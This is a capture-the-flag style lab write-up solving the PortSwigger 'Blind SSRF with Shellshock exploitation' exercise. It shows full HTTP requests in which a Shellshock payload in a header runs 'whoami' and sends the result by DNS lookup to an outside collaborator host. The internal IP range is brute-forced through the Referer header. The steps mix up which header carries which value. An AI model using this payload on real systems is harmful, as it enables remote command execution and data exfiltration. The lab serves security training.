





# Blind SSRF with Shellshock exploitation

## Lab Description :


## Overview :
Simply identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach.

However, it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

## Solution :
To solve this lab we need to identify some key information,

IPs of the internal server 192.168.0.X running on port 8080 which is vulnerable to shellshock.
To exfiltrate the name of the OS user.
NOTE - Referrer-Header is vulnerable to SSRF.

Steps -
Clicking on View Details of a product, loads the product page wherein the request contains the Referrer header which is vulnerable to SSRF.
```html
GET /product?productId=13 HTTP/2
Host: 0ab8003403ef88e280f0265700a4001b.web-security-academy.net
Cookie: session=gaaUVU6ky6kq0RbjJkmRgSmPUITyIzSP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ab8003403ef88e280f0265700a4001b.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
In the Referrer header enter the shellshock payload to view the username of the OS user.

``() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net;``

In the User-Agent header, enter the IP of the internal network ie. 192.168.0.x along with the port 8080.

where x - is the last octet which has to be bruteforced from **2-255 **
```html
GET /product?productId=13 HTTP/2
Host: 0ab8003403ef88e280f0265700a4001b.web-security-academy.net
Cookie: session=gaaUVU6ky6kq0RbjJkmRgSmPUITyIzSP
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).wee706d9a9nyr5tsejl120a8ozuqif.oastify.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.x:8080
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
Send the request to intruder, bruteforce thelast octet of the ip from 0-255. If any of the machines in the internal network is not patched and vulnerable to SSRF, then the exploit will be triggered & we will get the user-name of the OS user.



Start the attack.



Once the attack is finished, we see some DNS queries made to our burp collaborator server & it contains the result of our $(whoami) command.



Username - peter-zsamwy

Submit the username to solve the lab.



#### Visit The Next Page For The Next Level :)
